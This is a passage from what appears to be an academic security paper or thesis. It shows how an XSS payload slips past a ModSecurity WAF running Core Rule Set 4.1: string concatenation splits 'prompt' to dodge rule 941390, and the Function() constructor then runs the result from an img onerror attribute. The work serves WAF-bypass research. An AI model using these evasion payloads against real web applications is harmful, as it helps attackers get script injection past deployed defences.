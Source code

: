 \subsubsection{Function Constructor + String Concatenation}
\label{sec:funconstrconbypass}
In this test, the payload logic should include multiple statements and reveal a secret by accessing a property.
The basic implementation was blocked by the ModSecurity firewall configured to use \acrshort{crs} 4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={prompt() blocked}, label={lst:promptblocked}]
<payload>`var s = "secret";prompt(s, s)`</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python]
`var s = 'secret'; promp` + `t(s, s)`
\end{lstlisting}

If this payload is correctly injected into the evaluation test page mentioned under Section~\ref{sec:evaluation}, it results in the following \acrshort{html} code (shortened):

\begin{lstlisting}[style=basicStyle, language=Python]
<div id="div1">
	<img src="0" onerror="`var s = 'secret'; promp` + `t(s, s)`">
</div>
\end{lstlisting}

While this executes without exceptions, it does not achieve the wished-for effect. The effect achieved is the concatenation of the two strings \verb|`var s = 'secret'; promp`| and \verb|`t(s, s)`|. As mentioned under Section~\ref{sec:stringconc}, the payload string needs to be evaluted on the target in order to have a functioning payload after obscuring the statements inside with string concatenation. To achieve this, the \verb|Function()| constructor was used:

\begin{lstlisting}[style=basicStyle, language=Python]
new Function(`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

